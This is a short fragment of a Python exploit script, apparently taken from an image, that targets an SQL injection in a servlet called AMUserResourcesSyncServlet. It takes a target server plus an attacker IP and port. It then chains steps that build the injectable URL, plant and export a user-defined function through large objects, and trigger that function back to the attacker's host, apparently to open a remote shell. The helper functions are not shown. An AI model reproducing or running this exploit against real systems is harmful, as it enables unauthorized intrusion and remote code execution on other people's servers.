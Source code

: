 ```Python
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```